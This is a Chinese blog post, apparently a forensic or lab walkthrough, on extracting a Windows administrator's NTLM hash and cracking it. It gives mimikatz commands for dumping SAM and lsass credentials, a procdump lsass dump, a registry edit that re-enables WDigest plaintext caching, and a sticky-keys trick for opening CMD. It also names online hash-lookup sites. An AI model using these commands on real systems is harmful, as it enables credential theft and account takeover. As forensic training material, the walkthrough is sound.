










<!--more--> 
# 0x01 获取NTML值
## 方法一
通过取证软件文件过滤出Windows注册表，需要导出SYSTEM和SAM两个文件。

选择恢复/复制，选择保存的路径即可。



为了方便，将mimikatz放到同一个目录下。



在目录下启动CMD，运行mimkatz进行分析得到NTLM值。

```bash
mimikatz.exe "lsadump::sam /sam:SAM /system:SYSTEM" exit
```



## 方法二




启动时按下F2，进入Boot Manager，选择CDROM启动。







我们知道通过mimikatz获取密码的命令有：

```bash
# 直接提取
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
# 通过分析lsass
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::tspkg full" exit
```

当目标为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，但可以通过修改注册表的方式抓取明文。

```bash
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
```

但是这些都是在用户登录后的情况下。这里我们只能通过分析SAM拿到

```bash
cd C:\x64
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit
```

打开虚拟机后，shift按5次后弹出CMD，输入命令后可以获得NTLM值，注意看是不是500，如果不是，那不是管理员的NTLM。



# 0x02 查询密码网站
1. [https://crackstation.net/](https://crackstation.net/)
2. [https://www.somd5.com/](https://www.somd5.com/)
3. [https://cmd5.com/](https://cmd5.com/)


将该NTLM拿去网站查询，可以得到密码：jlb654321



# 参考
1. [[后渗透]Mimikatz使用大全 - 肖洋肖恩、 - 博客园](https://www.cnblogs.com/-mo-/p/11890232.html)
2. [使用mimikatz获取windows密码凭证_mimikatz获取windows凭据-CSDN博客](https://blog.csdn.net/cuteyann/article/details/130732849)


